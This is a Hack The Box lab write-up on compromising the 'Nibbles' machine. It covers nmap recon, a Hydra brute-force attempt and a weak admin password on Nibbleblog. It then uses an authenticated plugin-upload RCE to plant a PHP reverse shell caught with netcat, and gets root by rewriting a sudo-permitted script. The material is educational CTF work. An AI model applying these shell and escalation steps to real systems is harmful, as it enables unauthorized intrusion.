 ```yaml
---
title: 'Nibbles Writeup'
date: 2018-03-08
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/03/nibbles-writeup/nibble_banner.jpg
coverImage: /img/posts/2018/03/nibbles-writeup/nibble_banner.jpg
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "My writeup o"f the Hack the box Nibbles box... Nibble nibble!"
---
```

Connecting to Hack the Box[^1] using the supplied VPN, my Nibbles box have the IP: 10.10.10.75
As per usual, lets start with Recon and NMAP the target IP
```
root@kali:~/Nibbles$ nmap -p- --version-all -sV -sS 10.10.10.75
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-09 07:44 CET
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```
Seeing port 80 open, lets browse to that and look at the source code, as the base directory doesn't show anything revealing.
```
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
Seeing that we have a new directory to explore, lets go to /nibbleblog/.
![nibblesblog-root](/img/posts/2018/03/nibbles-writeup/nibblesblog-root.png)
So that points to the Content Management System (CMS) called Nibbleblog, which is opensource and free to download the sourcecode, which means we can take a look at it.
A bit of googling points me to the github https://github.com/dignajar/nibbleblog
Where the basefile "admin.php" looks interesting, and sure enough it does exist on our target.
![nibblesblog-admin](/img/posts/2018/03/nibbles-writeup/nibblesblog-admin.png)
The next interesting file from the github looks to be "install.php", on our target blog it is obviously already installed, nontheless it might be worth checking out!
![nibblesblog-install](/img/posts/2018/03/nibbles-writeup/nibblesblog-install.png)
Lets follow the update link to the update page!
![nibblesblog-update](/img/posts/2018/03/nibbles-writeup/nibblesblog-update.png)
So this further reveals two files where one is quite interesting, as config files usually contains usernames even possibly passwords, and other essential config parameters!
So lets browse to /nibbleblog/content/private/config.xml
```
<config>
[...snip...]
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
[...snip...]
</config>
```
So this time the config file does not reveal any passwords, although we're not emptyhanded as we do get a valid username "admin".
After some further enumeration i could not find a hint towards a password or any other vulnerability to use. So i resulted in trying THC-Hydra[^2] and a small passwordlist in an attempt to run a dictionary against the login page!
Which only got me on their blacklist and blocked me a couple minutes from making further login attempts.
![nibblesblog-login-blacklist](/img/posts/2018/03/nibbles-writeup/nibblesblog-login-blacklist.png)
Then after some further checking of the source code, i recalled it supposed to be a fairly simple box, so back to some default passwords.
Bingo, user: Admin, Password: nibbles so a weak password indeed.
Doing a grep for the password "nibbles" in the standard "rockyou.txt" that is included in Kali linux.
```
root@kali:~/Wordlists$ grep 'nibbles' rockyou.txt
nibbles
nibbles1
[...snip...]
```
We can see that doing the hydra would indeed work... eventually, you'd just have to do some timeouts between attempts.
Either way, we have the password and is logged in to the CMS admin panel!
![nibblesblog-logged-in](/img/posts/2018/03/nibbles-writeup/nibblesblog-logged-in.png)
Next up would be to try and get a shell on the system somehow, so back to google!
It eventually pointed me to another security researchers blog [CureSec Nibbleblog 4.0.3 RCE](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)[^3]
The PoC Exploit work in 4 steps
```
1. Obtain Admin credentials
2. Activate My image plugin
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```
So since we are already logged in, we can go to step two and activate the "My Image Plugin" under Plugins in the CMS Admin Panel.
Then lets create and upload a php reverse shell.
My favourite php-reverse-shell is included in kali, that pentestmonkey created.
Copy that to the working directory by issuing.
```
root@kali:~/Nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```
Then edit the $ip and $port variable in the php script, in this example i use port 4000. Once thats done, we can upload it to the CMS and start a netcat listener on our chosen port with (nc -lvvp 4000)
In this example i used curl to trigger the RCE since the "image.php" is in a public folder.
```
root@kali:~/Nibbles$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```
That should kick of a basic shell created by the PHP script to the Netcat listener.
Although the shell we recieve is a limited one, so lets enumerate which perl and python libraries are present to escape the limited shell.
```
root@kali:~/Nibbles$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from nibbles.htb [10.10.10.75] 49562
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:55:01 up 4 days,  6:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which perl
/usr/bin/perl
$ which python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash');"  
nibbler@Nibbles:/$ ls /home/nibbler
ls /home/nibbler
personal  personal.zip  user.txt
nibbler@Nibbles:/$
```
Since i am a Python guy, that's a quite an easy choice.
Now that we have the "user.txt" flag, lets get root!
One easy command to run is "sudo -l", which will report if the current user is in the /etc/sudoers file, as well list what commands the current user is allowed to run.
```
nibbler@Nibbles:/$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/$
```
Easy enough, at a quick glance in enumeration we can see that user nibbler is allowed to run "/home/nibbler/personal/stuff/monitor.sh" as root without a password!
At this point getting the root flag should be fairly simple!
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/cat /root/root.txt" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745[...snip...]8ef88c
nibbler@Nibbles:/home/nibbler/personal/stuff$
```
Done.

[^1]: [ www.hackthebox.eu]( www.hackthebox.eu)
[^2]: https://tools.kali.org/password-attacks/hydra
[^3]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html
